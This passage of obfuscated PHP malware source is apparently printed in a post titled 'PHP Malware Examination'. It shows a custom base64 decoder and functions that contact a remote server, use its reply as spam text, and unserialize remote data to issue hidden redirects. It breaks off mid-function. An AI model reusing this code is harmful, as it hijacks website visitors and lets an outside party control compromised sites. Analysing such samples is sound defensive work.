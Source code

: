 ```php
		$this->_u08raxie = explode("/", $this->_u08raxie);
		$this->_ibktrama = explode("/", $this->_ibktrama);
	}

	static private function _yqd7x($_x671rl9p){
		if (strlen($_x671rl9p) < 4){
			return "";
		}
		$_1uf4luy1 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
		$_pfoa7z23 = str_split($_1uf4luy1);
		$_pfoa7z23 = array_flip($_pfoa7z23);
		$_xdn6ddo5 = 0;
		$_zrb4w2a2 = "";
		$_x671rl9p = preg_replace("~[^A-Za-z0-9\+\/\=]~", "", $_x671rl9p);
		do {
			$_fmyu7m3u = $_pfoa7z23[$_x671rl9p[$_xdn6ddo5++]];
			$_e664o3z2 = $_pfoa7z23[$_x671rl9p[$_xdn6ddo5++]];
			$_gl2fd4nr = $_pfoa7z23[$_x671rl9p[$_xdn6ddo5++]];
			$_ne36pr0t = $_pfoa7z23[$_x671rl9p[$_xdn6ddo5++]];
			$_74h0whi2 = ($_fmyu7m3u << 2) | ($_e664o3z2 >> 4);
			$_ly17nv2z = (($_e664o3z2 & 15) << 4) | ($_gl2fd4nr >> 2);
			$_z5fafa64 = (($_gl2fd4nr & 3) << 6) | $_ne36pr0t;
			$_zrb4w2a2 = $_zrb4w2a2 . chr($_74h0whi2);
			if ($_gl2fd4nr != 64) {
				$_zrb4w2a2 = $_zrb4w2a2 . chr($_ly17nv2z);
			}
			if ($_ne36pr0t != 64) {
				$_zrb4w2a2 = $_zrb4w2a2 . chr($_z5fafa64);
			}
		} while ($_xdn6ddo5 < strlen($_x671rl9p));
		return $_zrb4w2a2;
	}

	private function _bem0h($_5oudn589){
		$_f0y2sncy = "";
		$_4o6wrpay = "";
		$_wjqehzzq = _abtwpw0::_coldw();
		$_wjqehzzq["uid"] = _abtwpw0::$_gc26w45m;
		$_wjqehzzq["keyword"] = $_5oudn589;
		$_wjqehzzq["tc"] = 10;
		$_wjqehzzq = http_build_query($_wjqehzzq);
		$_elxaovea = _19g0vs2::_5es9r($this->_ibktrama, $_wjqehzzq);
		if (strpos($_elxaovea, _abtwpw0::$_gc26w45m) === FALSE){
			return Array($_f0y2sncy, $_4o6wrpay);
		}
		$_f0y2sncy = _royr5j::_zhykw();
		$_4o6wrpay = substr($_elxaovea, strlen(_abtwpw0::$_gc26w45m));
		$_4o6wrpay = explode("\n", $_4o6wrpay);
		shuffle($_4o6wrpay);
		$_4o6wrpay = implode(" ", $_4o6wrpay);
		return Array($_f0y2sncy, $_4o6wrpay);
	}

	private function _3krbm(){
		$_wjqehzzq = _abtwpw0::_coldw();
		$_wjqehzzq["uid"] = _abtwpw0::$_gc26w45m;
		$_wjqehzzq = http_build_query($_wjqehzzq);
		$_m2ht28x6 = _19g0vs2::_5es9r($this->_u08raxie, $_wjqehzzq);
		$_m2ht28x6 = @unserialize($_m2ht28x6);
		if (isset($_m2ht28x6["type"]) && $_m2ht28x6["type"] == "redir") {
			if (!empty($_m2ht28x6["data"]["header"])) {
				header($_m2ht28x6["data"]["header"]);
				return true;
```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"